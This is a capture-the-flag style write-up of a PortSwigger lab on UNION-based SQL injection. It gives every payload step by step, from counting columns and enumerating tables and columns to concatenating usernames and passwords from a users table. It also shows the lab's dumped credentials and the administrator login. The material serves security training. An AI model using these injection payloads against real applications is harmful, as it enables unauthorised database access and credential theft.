








# 🎯 SQL Injection: Retrieving Multiple Values in a Single Column

**Write-Up by Aditya Bhatt | UNION-Based SQLi | Multi-Value Extraction | BurpSuite**

This PortSwigger lab hides a classic **UNION-based injection** inside the category filter.
Our goal is to extract **all usernames and passwords** from the `users` table — using a **single text column** and multi-value concatenation.

[Lab Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column) <br/>



---

# 🧪 TL;DR

* Backend query returns **2 columns**.
* Only **second column accepts strings**.
* Use UNION to enumerate:

  * table names
  * column names
  * user credentials
* Final payload uses `username||'~'||password`.
* Login as **administrator → Lab Solved**.

---

# 🌐 Brief Intro

This lab returns only one **text-compatible column**, so UNION extraction must be done using **string concatenation**.
PostgreSQL supports `||` for concatenation, making it perfect for retrieving **multiple values in one column**.

We follow a systematic method:

1. Find column count
2. Identify which column accepts text
3. Enumerate `tables`
4. Enumerate `columns`
5. Extract credentials
6. Login as admin

Let’s begin.

---

# 🧬 Step-By-Step PoC (Screenshots Included)

---

## **1. Open the Lab and Select a Category (e.g., Gifts)**

Captured the request in Burp to identify the injection point.



**➤ Why?**
We need the baseline request containing the `category` parameter.

---

## **2. Test UNION with 2 NULLs to Find Column Count**

Payload added to URL:

```
+UNION+SELECT+NULL,NULL--
```

This renders correctly, and the output shows:

Gifts' UNION SELECT NULL,NULL--



**➤ Why?**
The backend uses **2 columns**, confirmed by successful response.

---

## **3. Identify the Text-Compatible Column**

Testing second column:

```
+UNION+SELECT+NULL,'a'--
```

Works perfectly.

Testing other combos:
```
+UNION+SELECT+'a',NULL-- → 500 error
```

```
+UNION+SELECT+'a','b'-- → 500 error
```


**➤ Why?**
Only **column 2** accepts strings.
Column 1 is non-text (integer).

---

## **4. Enumerate Table Names**

Payload:

```
+UNION+SELECT+NULL,+table_name+FROM+information_schema.tables--
```

This dumps a massive list of PostgreSQL system tables.



**➤ Why?**
Among all results, one table stands out clearly:
**users**
This is our target.

---

## **5. Enumerate Column Names for Table "users"**

Payload:

```
+UNION+SELECT+NULL,+column_name+FROM+information_schema.columns+WHERE+table_name='users'--
```

Output:

email
password
username



**➤ Why?**
We now know exactly which fields to extract.

---

## **6. Extract User Credentials (Username + Password)**

Payload:

```
+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

Output:

wiener~y2oy9jnq2x2ljlqey3dd <br/>
carlos~y11guehqoit2s2hxj1t2 <br/>
administrator~iw82lgcs8vwqgtc7ert8 <br/>



**➤ Why?**
We use `||` to return **two values inside the single text column**.

This is the key trick for this lab.

---

## **7. Login as Administrator**

Go to **My Account** →
Enter:

username: administrator
password: iw82lgcs8vwqgtc7ert8



**➤ Why?**
Administrator login completes the lab requirement.

---

# 🎉 Lab SOLVED

We successfully retrieved:

* Table name: **users**
* Columns: **username**, **password**, **email**
* Credentials dumped via UNION
* Logged in as **administrator**



---

# 🧠 Key Takeaways

* Always check column count and data types before enumeration.
* PostgreSQL uses `||` for safe concatenation.
* When only one text column exists → concatenate values.
* UNION-based SQLi is powerful for dumping entire DB structures.

---

# 🔥 Final Thoughts

Multi-value extraction in a single column is a crucial SQLi skill — especially when dealing with PostgreSQL or limited text fields.
Mastering this technique enables deeper enumeration during real-world assessments and CTF labs.

Stay sharp. Stay curious. <br/>
— **Aditya Bhatt** 🔥

---
